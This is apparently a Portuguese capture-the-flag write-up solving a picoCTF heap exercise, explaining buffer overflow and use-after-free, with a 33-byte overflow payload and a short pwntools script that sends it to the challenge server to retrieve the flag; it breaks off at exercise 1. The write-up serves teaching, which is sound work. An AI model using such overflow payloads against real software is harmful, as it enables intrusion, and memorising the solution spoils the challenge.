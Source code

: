## Autor: Gebra  
  
# Heap:

A Heap é uma área da memória dinâmica(RAM) usada por programas para alocar e desalocar dados de forma flexível durante a
execução do código. E vamos explorar as seguintes vulnerabilidades: 

1.Buffer Overflow: Ultrapassar o tamanho alocado de memória em uma variável para alterar memória adjacente. 

2.UAF(Use After Free): Programa Acessa bloco de memória já liberado, permitindo a modificação dos dados.

## Exercício 0:
### Resolução via terminal:
Esse exercício foi projetado para ser de estágio inicial, por isso a Heap pode ser visualizada dentro do próprio código.
```python
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
```

Executando o código, é possivel descobrir os endereços de cada variável na heap.
![image](https://github.com/user-attachments/assets/655c496d-9e70-4afd-9f06-bb07769e6609)


Com esses dados, podemos verificar as distância entre os endereços e conseguir o offset dos dois, assim descobrimos que é 
32 bytes e que precisamos fazer um estouro desse tamanho.
Digitando esse comando no cmd, você receba a string de 33 caracteres pronta para teste.
    
    python3 -c 'print("a"*33)'

Colocando essa string como input do buffer você irá sobrescrever "pico" por "a"*32 e "bico" por "a". 
![image](https://github.com/user-attachments/assets/0c9ee24a-26aa-453a-9832-a249eb25d012)


Assim você consegue a flag ao digitar 4.

# Resolução via pwntools:
![image](https://github.com/user-attachments/assets/a63b90a8-f8c8-4770-8b1f-8519f5ac2077)


Criamos p como process para teste e depois partimos para o remote onde conseguiremos a flag verdadeira.
```python
    p = remote("tethys.picoctf.net", 55850)
```
Depois Criamos um payload para enviar para o código.
```python
    payload = "a" * 33
```
Depois enviamos o payload para o código e recebemos a flag.
```python
    p.recvuntil("choice:")

    p.sendline("2")
    p.sendline(payload)
    
    p.recvuntil("choice:")
    p.sendline("4")

    print(p.recvall())
```


## Exercício 1:
Para o restante dos exercícios vou explicar apenas pelo pwntools para acostumarmos com essa ferramenta.

